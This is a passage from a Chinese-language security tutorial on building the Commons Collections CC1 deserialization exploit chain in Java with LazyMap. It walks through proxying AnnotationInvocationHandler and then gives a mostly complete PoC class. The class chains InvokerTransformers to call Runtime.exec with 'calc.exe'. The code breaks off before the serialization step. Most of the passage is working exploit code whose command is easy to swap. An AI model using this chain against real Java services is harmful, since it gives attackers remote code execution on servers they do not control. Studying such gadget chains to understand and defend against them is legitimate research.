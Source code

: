### 编写POC

在TransformedMap POC的基础上进行修改，首先使用LazyMap替换TransformedMap

```java
Map tmap = LazyMap.decorate(map, transformerChain);
```

然后，对 AnnotationInvocationHandler 对象进行代理

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) declaredConstructor.newInstance(Retention.class, tmap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
```

代理后的对象叫做proxyMap，但我们不能直接对其进行序列化，因为我们入口点是AnnotationInvocationHandler的readObject ，所以我们还需要再用AnnotationInvocationHandler对这个proxyMap进行包裹。

```java
handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
```

完整的poc如下

```java
package cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;


public class CC1_LazyMapEXP implements Serializable {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                //传入Runtime类
                new ConstantTransformer(Runtime.class),
                //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                //反射调用exec方法
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"})
        };
        //把transformers的4个Transformer执行
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
```